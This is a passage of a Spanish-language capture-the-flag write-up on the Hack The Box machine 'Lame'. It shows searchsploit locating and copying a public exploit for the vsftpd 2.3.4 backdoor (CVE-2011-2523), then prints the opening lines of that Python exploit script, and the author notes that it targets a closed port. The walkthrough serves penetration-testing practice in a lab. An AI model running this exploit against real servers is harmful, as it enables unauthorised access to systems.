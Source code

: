 Con el servicio ftp enumerado, podemos validar su existe exploit para la version del ftp.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/Lame]
└─# searchsploit vsftpd 2.3.4           
--------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                            |  Path
--------------------------------------------------------------------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                    | unix/remote/17491.rb
--------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results
```
Con el exploit encontrado, lo descargamos utilizando el parametro `-m | move`

```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/Lame]
└─# searchsploit -m unix/remote/49757.py
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/s3cur1ty3c/CTF/HTB/Lame/49757.py
```
Verificamos el exlploit descargado, pero en el contenido se puede evidenciar que apunta a un puerto 6200 que no esta abierto, por lo que no serviría para ejecutar una shell reversa.

```java
──────────────────────────────────────────────────────────────────────────────────────────────
File: ftp-exploit.py
──────────────────────────────────────────────────────────────────────────────────────────────
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523
 
#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line
```